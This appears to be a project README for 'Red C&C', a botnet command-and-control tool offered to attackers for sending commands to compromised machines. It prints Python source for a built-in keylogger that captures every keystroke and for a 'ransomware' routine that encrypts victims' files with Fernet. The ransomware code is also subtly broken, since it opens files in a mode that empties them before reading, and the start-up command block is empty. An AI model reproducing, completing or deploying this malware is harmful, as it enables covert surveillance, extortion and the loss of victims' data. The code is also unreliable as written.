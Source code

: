 # Red C&C
__ is a program focused on commanding and controlling a botnet. consist of two scripts: one that will be executed by the attacker and one that will be downloaded and executed on the targeted machines. __ will allow an attacker to send terminal commands to an entire botnet through a single interface and a single command. The purpose of __ is to simplify the communication between an attacker and the machines that they have compromised. 


### Starting the Handler
Running Red C&C is as simple as 
```bash

```

## Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += '' 
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t'
		elif key == key.cmd: LOG += ' cmd+'
		elif key == key.alt: LOG += ' alt+'
		elif key == key.caps_lock: LOG += ' CapsLock '
		elif key == key.delete: LOG += ' Del '
		elif key == key.down: LOG += ' DownArrow '
		elif key == key.left: LOG += ' LeftArrow '
		elif key == key.up: LOG += ' UpArrow '
		elif key == key.right: LOG += ' RightArrow'
		elif key == key.esc: LOG += ' esc '
		elif key == key.home: LOG += ' HomeKey '
		elif key == key.insert: LOG += ' InsertKey '
		elif key == key.print_screen: LOG += ' PrintScreen '
		elif key == key.shift: LOG += ' shift+'
		elif key == key.f1: LOG += ' F1 '
		elif key == key.f2: LOG += ' F2 '
		elif key == key.f3: LOG += ' F3 '
		elif key == key.f4: LOG += ' F4 '
		elif key == key.f5: LOG += ' F5 '
		elif key == key.f6: LOG += ' F6 '
		elif key == key.f7: LOG += ' F7 '
		elif key == key.f8: LOG += ' F8 '
		elif key == key.f9: LOG += ' F9 '
		elif key == key.f10: LOG += ' F10 '
		elif key == key.f11: LOG += ' F11 '
		elif key == key.f12: LOG += ' F12 '
		else:
			LOG += str(key)
def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations
```python
def crypto(action: str, *args):
	if action == 'encrypt':
		to_encrypt = args[0]
		with open(to_encrypt, 'wb+') as f:
			data = f.read()
			key = Fernet.generate_key()
			cipher = Fernet(key)
			cipher_text = cipher.encrypt(data)
			f.seek(0)
			f.write(cipher_text)
			f.truncate()
			return f'  Save the decryption key -> {key.decode()}'
	else:
		to_encrypt, key = args[0][0], args[0][1]
		with open(to_encrypt, 'wb+') as f:
			cipher_text = f.read()
			cipher = Fernet(key)
			try:
				plain_text = cipher.decrypt(cipher_text)
			except cryptography.fernet.InvalidToken:
				return '  [-] Invalid key!'
			f.seek(0)
			f.write(plain_text)
			f.truncate()
			return '  [+] File successfully decrypted!'
```
